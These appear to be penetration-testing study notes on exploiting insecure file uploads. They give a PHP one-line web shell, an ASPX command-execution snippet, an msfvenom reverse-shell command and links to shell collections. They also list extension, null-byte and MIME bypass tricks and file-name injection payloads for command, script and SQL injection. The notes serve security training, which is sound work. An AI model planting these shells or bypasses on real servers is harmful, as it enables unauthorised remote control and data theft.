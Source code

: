 ## Info

- Occurs when the web application does not have any form of validation filters on the uploaded files

## Enumeration

**PHP**
- Identification: `<?php system("dir");?>`
- One liner cmd php: `<?php system($_REQUEST['cmd']); ?>`
- Shell: https://github.com/Arrexel/phpbash
- Seclists: https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- Pentestmonkey: https://github.com/pentestmonkey/php-reverse-shell
- Msfvenom: `L3pr3ch4un@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

**ASPX**

```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

## Client Side Validation

We can either modify the upload request to the back-end server, or we can manipulate the front-end code to disable these type validations.

Note: We may also modify the Content-Type of the uploaded file, though this should not play an important role at this stage, so we'll keep it unmodified.’

**Fuzzing extesions**

Not all extensions will work with all web server configurations, so we may need to try several extensions to get one that successfully executes PHP code.

- **Common Extensions**:https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- **PHP**:https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
- **ASP**: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP

**Reverse Double Extensions**:

In some cases, the file upload functionality itself may not be vulnerable, but the web server configuration may lead to a vulnerability. For example, an organization may use an open-source web application, which has a file upload functionality. Even if the file upload functionality uses a strict regex pattern that only matches the final extension in the file name, the organization may use the insecure configurations for the web server.
**eg:** filename.php.jpg

**Character Injection**:

The following are some of the characters we may try injecting:

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, (shell.php%00.jpg) works with PHP servers with version 5.X or earlier

**Type Filters**

There are two common methods for validating the file content: Content-Type Header or File Content.

**Wordlist**: https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt

**Mime-Type**

Multipurpose Internet Mail Extensions (MIME) is an internet standard that determines the type of a file through its general format and bytes structure.

**Injections in File Name**

```
file$(whoami).jpg
file`whoami`.jpg 
file.jpg||whoami
<script>alert(window.origin);</script>
file';select+sleep(5);--.jpg
```

**Windows Specific**:

One such attack is using reserved characters, such as (|, <, >, *, or ?), which are usually reserved for special uses like wildcards. If the web application does not properly sanitize these names or wrap them within quotes, they may refer to another file (which may not exist) and cause an error that discloses the upload directory. 
